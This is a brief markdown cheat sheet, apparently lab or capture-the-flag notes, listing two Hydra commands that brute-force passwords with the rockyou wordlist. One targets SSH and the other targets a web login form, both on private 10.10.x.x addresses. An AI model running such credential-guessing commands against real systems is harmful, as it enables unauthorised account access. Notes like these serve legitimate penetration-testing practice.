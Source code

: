 # Hydra

SSH PW Brute Force user "user"

```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```
